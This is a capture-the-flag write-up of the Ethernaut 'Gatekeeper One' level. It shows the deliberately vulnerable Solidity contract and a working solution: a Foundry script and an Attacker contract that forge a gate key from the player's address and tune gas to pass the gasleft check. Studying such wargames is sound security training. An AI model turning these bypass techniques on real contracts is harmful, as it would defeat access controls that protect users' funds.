 ```yaml
---
title: "Gatekeeper One"
date: "2024-02-10"
lastmod: "2024-02-23T12:57:00.000Z"
draft: false
difficulty: "⭐⭐⭐⭐"
prev: "Privacy-0141c59931824d74a8311099eb338d5d"
weight: 14
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/13"
next: "Gatekeeper-Two-d4a070f38b644143a295ecf4467fb7fa"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "9bbda6ef-a6c2-4367-aa64-3eb73ae92a6a"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-23T12:57:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel13.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "f9c2f40a-0144-4e6d-a134-6b9fd725f7a9"
        name: "⭐⭐⭐⭐"
        color: "red"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Privacy-0141c59931824d74a8311099eb338d5d"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Privacy-0141c59931824d74a8311099eb338d5d"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-02-10"
        end: null
        time_zone: null
    Last edited time:
      id: "ZdmN"
      type: "last_edited_time"
      last_edited_time: "2024-02-23T12:57:00.000Z"
    weight:
      id: "%5Dyda"
      type: "number"
      number: 14
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/13"
    Last edited by:
      id: "mIQC"
      type: "last_edited_by"
      last_edited_by:
        object: "user"
        id: "7866207c-089f-43df-9333-1dc33859c6a9"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Gatekeeper-Two-d4a070f38b644143a295ecf4467fb7fa"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Gatekeeper-Two-d4a070f38b644143a295ecf4467fb7fa"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Gatekeeper One"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Gatekeeper One"
          href: null
  url: "https://www.notion.so/Gatekeeper-One-9bbda6efa6c24367aa643eb73ae92a6a"
  public_url: null
UPDATE_TIME: "2024-02-23T20:54:30.044Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


title: Gatekeeper One
weight: 13
type: docs
prev: privacy
next: gatekeeper-two


[Level13](https://ethernaut.openzeppelin.com/level/13) - ⭐⭐⭐⭐


---


Make it past the gatekeeper and register as an entrant to pass this level.


### Things that might help:

- Remember what you've learned from the Telephone and Token levels.
- You can learn more about the special function `gasleft()`, in Solidity's documentation (see [here](https://docs.soliditylang.org/en/v0.8.3/units-and-global-variables.html) and [here](https://docs.soliditylang.org/en/v0.8.3/control-structures.html#external-function-calls)).

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract GatekeeperOne {

  address public entrant;

  modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
  }

  modifier gateTwo() {
    require(gasleft() % 8191 == 0);
    _;
  }

  modifier gateThree(bytes8 _gateKey) {
      require(uint32(uint64(_gateKey)) == uint16(uint64(_gateKey)), "GatekeeperOne: invalid gateThree part one");
      require(uint32(uint64(_gateKey)) != uint64(_gateKey), "GatekeeperOne: invalid gateThree part two");
      require(uint32(uint64(_gateKey)) == uint16(uint160(tx.origin)), "GatekeeperOne: invalid gateThree part three");
    _;
  }

  function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
    entrant = tx.origin;
    return true;
  }
}
```


Solution:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";

import {Attacker, GatekeeperOne} from "../src/13.sol";

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address publicKey = vm.envAddress("PUBLIC_KEY");
        address addr = vm.envAddress("INSTANCE_13");

        vm.startBroadcast(deployerPrivateKey);

        GatekeeperOne gate = GatekeeperOne(addr);

        console.log('entrant = %s', gate.entrant());

        Attacker attacker = new Attacker(address(gate));

        // -----
        bytes2 expected = bytes2(uint16(uint160(publicKey)));
        console.logBytes2(expected);
        // -----

        console.logBytes20(bytes20(publicKey));
        bytes8 gateKey = bytes8((uint64((uint160(publicKey) << 6 * 8)) >> 8 * 6) + 0x0100000000000000);

        console.log('entrant = %s', gate.entrant());

        attacker.attack(gateKey);

        console.log('entrant = %s', gate.entrant());
        vm.stopBroadcast();

    }
}
```


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;
import "forge-std/console.sol";

interface GatekeeperOne {
  function entrant() external returns(address);
  function enter(bytes8 _gateKey) external returns (bool);
}

contract Attacker {
  GatekeeperOne gatekeeper;

  constructor(address _gatekeeper) {
    gatekeeper = GatekeeperOne(_gatekeeper);
  }

  function attack(bytes8 _gateKey) public  {
    gatekeeper.enter{gas: 8191 + 24829}(_gateKey); // 24829 if found through brut force loop simulation (without --broadcast flag we can simulate execution)
  }
}
```

